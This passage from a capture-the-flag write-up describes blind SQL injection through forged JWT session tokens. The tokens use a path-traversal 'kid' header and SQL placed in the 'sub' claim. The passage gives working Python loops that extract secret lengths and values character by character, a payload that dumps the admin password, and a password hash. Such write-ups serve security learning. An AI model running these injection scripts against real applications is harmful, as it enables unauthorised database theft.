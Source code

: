 Payload: <code><i>"admin' AND (SELECT substr(password,{l},1)='{c}' FROM users WHERE username='admin') --"</i></code><br><br>


Password : $2y$10$RmlNXFHqCp0thBE.cpvDqu1ESXlDTr9mIFwyK.jUSoppKW0e9XqGq<br>
This looked like a hash in this kind of <a href="https://en.wikipedia.org/wiki/Crypt_%28C%29#Key_derivation_functions_supported_by_crypt">format</a>, which definitely didn't look like a flag but I had this on a side in case of some use later.<br>Getting back to enumeration of secrets table, so far I had 5 ids with values and none of them were the flag which could only mean that there is n number of ids and one of those contain a flag. Usually the bisecting would be "proper" approach, but I am way too lazy for that so I just did something like this with <b>high</b> hopes:
</p><br>

```python
def vals(url):
 v = []
 for c in range(0,255):
   token = jwt.encode({"sub":f"admin' AND (SELECT count(1)=1 FROM secrets where length(value)={c} AND secrets.id NOT IN(1,2,3,4,5,(SELECT MAX(id) from secrets))) -- "
, "name":"Admin", "admin":True}, key=content, algorithm="HS384", headers={"kid":f"../{obj}"})
   cookies = {"session":token}
   r = s.get(url, cookies=cookies)
   if "Edit post" in r.text:
     print("exists:",c)
     v.append(c)
 print("values",v)
```

If there are no duplicate ids containing values (which there weren’t because ids were attributed as Primary key), this will give me a unique count of values for ids that are not: 1,2,3,4,5 and max id number.

It resulted into: [18, 67]

I checked the 67 length value first:

```python
def q(url):
 chrs = [w for w in string.printable[:-5]]
 flag = f""
 for l in range(1,255): # 1,61
   for c in chrs:
     token = jwt.encode({"sub":f"admin' AND (SELECT substr(value,{l},1)='{c}' FROM secrets WHERE LENGTH(value)=67) -- "
, "name":"Admin", "admin":True}, key=content, algorithm="HS384", headers={"kid":f"../{obj}"})
     cookies = {"session":token}
     r = s.get(url,cookies=cookies)
     if("Edit post" in r.text):
       print(f"letter {l} is: ", c)
       flag += c
       break
   if l != len(flag):
     print("final FLAG: ",flag)
     break
   print("current FLAG: ",flag)
```
